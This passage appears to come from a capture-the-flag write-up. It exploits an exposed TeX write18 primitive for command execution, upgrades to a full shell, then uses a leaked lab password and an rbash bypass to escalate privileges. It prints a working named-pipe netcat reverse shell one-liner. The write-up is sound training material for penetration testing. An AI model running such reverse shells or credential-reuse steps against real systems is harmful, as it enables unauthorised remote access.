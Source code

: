 ```js
$('body').append('<textarea id="output" style="width: 100%; height: 200px;">')
```

Template 2 and 3 are working. More importantly, a TeX [primitive](https://tex.stackexchange.com/questions/20444/what-are-immediate-write18-and-how-does-one-use-them) `write18` that executes command is exposed.


{% include image.html image_alt="ea9f652d.png" image_src="/884c1fd7-6418-4f23-b058-2b4324b323a5/ea9f652d.png" %}


With that in mind, let's see if our beloved `nc` is available on the host.


{% include image.html image_alt="9e85d97e.png" image_src="/884c1fd7-6418-4f23-b058-2b4324b323a5/9e85d97e.png" %}


Awesome. Too bad, the `-e` is not available. Fret not, we can still make do with something like this.

```
rm -rf /tmp/p; mknod /tmp/p p; /bin/bash 0</tmp/p | nc 10.10.13.52 1234 >/tmp/p
```

True enough, a reverse shell appears on my `nc` listener.


{% include image.html image_alt="1a482f42.png" image_src="/884c1fd7-6418-4f23-b058-2b4324b323a5/1a482f42.png" %}


Let's upgrade the shell with Python's `pty` module and some `stty` magic.


{% include image.html image_alt="f385b4d8.png" image_src="/884c1fd7-6418-4f23-b058-2b4324b323a5/f385b4d8.png" %}


Sweet.

## Privilege Escalation

Now, let's see if we can `su` ourselves to `ayush` with the password `jiujitsu` obtained earlier. Before we do that, know that `ayush`'s default shell is `rbash`.


{% include image.html image_alt="7ee16be4.png" image_src="/884c1fd7-6418-4f23-b058-2b4324b323a5/7ee16be4.png" %}


We can always bypass `rbash` like this.


{% include image.html image_alt="2d24e98b.png" image_src="/884c1fd7-6418-4f23-b058-2b4324b323a5/2d24e98b.png" %}


The `user.txt` is at `ayush`'s home directory.


{% include image.html image_alt="2bf5173c.png" image_src="/884c1fd7-6418-4f23-b058-2b4324b323a5/2bf5173c.png" %}
